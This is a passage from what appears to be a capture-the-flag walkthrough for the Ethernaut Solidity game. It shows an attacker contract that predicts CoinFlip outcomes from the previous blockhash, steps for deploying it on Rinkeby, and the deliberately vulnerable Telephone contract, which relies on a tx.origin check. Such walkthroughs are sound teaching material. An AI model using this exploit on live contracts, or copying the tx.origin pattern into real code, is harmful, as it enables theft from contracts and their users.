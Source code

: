 ```
    constructor() public {
        flipper = CoinFlip(your instance address);
    }

   function doFlip() public{
      uint256 blockValue = uint256(blockhash(block.number - 1));
       uint256 coinFlip = uint256(uint256(blockValue)/FACTOR);
       side = coinFlip == 1 ? true : false;
      flipper.flip(side);
    }
}
```

2. ignore warnings about infinite gas costs that Remix may throw - it's a bug on Remix's side that it thinks coinflip above has loops or unbounded variables

3. select Injected Web3 and deploy Flipper into Rinkeby

4. When done, select function doFlip in Remix's UI which will trigger flip. Repeat 10x or more! Some will fail, some will give warnings - ignore!

5. call

```
await contract.consecutiveWins()
```

and you'll see 10 or more in the first position of the Array

6. Submit Instance!

## Telephone

Difficulty 1/10

Claim ownership of the contract below to complete this level.

Things that might help

See the Help page above, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
